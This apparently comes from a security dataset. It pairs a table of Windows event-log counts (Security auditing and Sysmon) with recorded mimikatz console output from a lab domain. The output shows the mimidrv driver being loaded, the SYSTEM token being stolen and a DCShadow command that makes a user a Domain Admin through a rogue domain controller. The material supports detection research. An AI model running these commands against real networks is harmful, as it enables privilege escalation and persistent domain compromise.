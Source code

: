 | Security                             | Microsoft-Windows-Security-Auditing | Other Object Access Events                             |               1 |
| Security                             | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use                                |               1 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             969 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |             517 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |             143 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |             119 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             105 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | Dns query (rule: DnsQuery)                             |              12 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |               6 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |               5 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |               4 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               3 |
| Microsoft-Windows-Sysmon/Operational | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               3 |


## Attacker Activity

```
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
mimikatz # !processtoken
Token from process 0 to process 0
 * from 0 will take SYSTEM token
 * to 0 will take all 'cmd' and 'mimikatz' process
Token from 4/System
 * to 3888/powershell.exe
 * to 7108/cmd.exe
 * to 8952/cmd.exe
 * to 6272/cmd.exe
 * to 8164/cmd.exe
 * to 9144/mimikatz.exe

mimikatz # lsadump::dcshadow /object:bilbo /attribute:primaryGroupID /value:512
** Domain Info **

Domain:         DC=shire,DC=com
Configuration:  CN=Configuration,DC=shire,DC=com
Schema:         CN=Schema,CN=Configuration,DC=shire,DC=com
dsServiceName:  ,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=shire,DC=com
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 86111

** Server Info **

Server: HFDC1.shire.com
  InstanceId  : {2021b645-d9c2-416d-9684-182516ad6738}
  InvocationId: {2021b645-d9c2-416d-9684-182516ad6738}
Fake Server (not already registered): it001.shire.com

** Attributes checking **

#0: primaryGroupID
```